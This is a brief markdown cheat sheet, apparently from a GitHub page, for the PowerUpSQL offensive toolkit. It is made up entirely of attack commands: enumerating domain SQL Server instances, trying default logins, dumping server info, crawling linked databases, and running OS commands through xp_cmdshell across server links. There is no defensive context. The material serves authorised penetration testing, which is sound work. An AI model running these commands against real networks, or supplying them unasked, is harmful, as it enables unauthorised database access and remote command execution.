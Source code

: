 # PowerUpSQL

## Enumeration

```csharp
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

#### Default login

```csharp
 Get-SQLServerLoginDefaultPw -Verbose -Instance <SERVER>
```

### Dump

```csharp
Invoke-SQLDumpInfo -Verbose -Instance <SERVER>
```

### Database Link

```csharp
Get-SQLServerLink -Instance <SERVER>
Get-SQLServerLinkCrawl -Instance <SERVER> -Verbose | ft
```

#### Command execution

```csharp
Get-SQLServerLinkCrawl -Instance <SERVER> -Query "exec master..xp_cmdshell 'ipconfig'"
```

